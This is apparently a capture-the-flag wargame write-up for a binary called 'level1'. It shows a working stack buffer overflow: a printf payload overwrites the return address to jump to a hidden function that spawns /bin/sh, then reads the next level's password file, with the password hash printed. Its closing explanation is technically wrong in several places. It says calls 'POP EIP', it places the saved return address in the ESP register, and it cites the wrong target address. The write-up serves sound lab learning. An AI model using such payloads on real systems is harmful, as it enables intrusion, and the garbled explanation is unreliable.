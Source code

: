# Write up

We have a `level1` file now, when we execute it, we are asked to write something.
When we write `test`, the program exits without any problem, but when we write something very long we get a Segmentation Fault.
We have to exploit a buffer overflow here.

Same thing, we download and disassemble the binary.
We notice a `run` function at the `0x08048444` address, this function call fwrite and system, we can assume that this function opens a shell.
We can confirm this by extracting the data section : `objdump -s -j .rodata bin1 > asm1_data.txt`
```
 8048568 03000000 01000200 476f6f64 2e2e2e20  ........Good... 
 8048578 57616974 20776861 743f0a00 2f62696e  Wait what?../bin
 8048588 2f736800                             /sh.            
```

The main function is located at the `0x08048480` address, and calls the gets function.
We will have to find a way to jump to the `0x08048444` address.

First we have to know the buffersize.
This line :
``` 
 8048486:	83 ec 50             	sub    $0x50,%esp
```
Show us that 80 (50 in hex) bytes are allocated in the stack.
The system is 32 bits (x86), so we have 4 bytes for the esp register and 76 for the buffer size.
We swipe the `run` address bytes and execute this payload :
```
printf "%76s%b" "" "\x44\x84\x04\x08" | ./level1
```
Which gives us :
```
Good... Wait what?
Segmentation fault (core dumped)
```

We got the shell, now we have to keep it by preventing the `EOF` input.
We can use the `cat` binary on the standard input to keep the hand on the shell.
```
(printf "%76s%bid" "" "\x44\x84\x04\x08"; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

## Explaination

When you call a function in ASM, you implicitly execute a POP EIP instruction to know from where you come.
The saved EIP will be stored in the ESP register and the stored address will be jumped to after a RET call.
By adding the `0x08048480` address after the buffer limit, we actually overwrite the ESP register contents.
The current main function contains a RET call, which makes the program thinks the address we overwrited is actually the saved EIP, which makes us jump to the unused function, Hooray !


## Sources

https://reverseengineering.stackexchange.com/questions/17075/stack-buffer-size-is-different-between-c-and-asm
https://www.coengoedegebure.com/buffer-overflow-attacks-explained/
https://beta.hackndo.com/stack-introduction/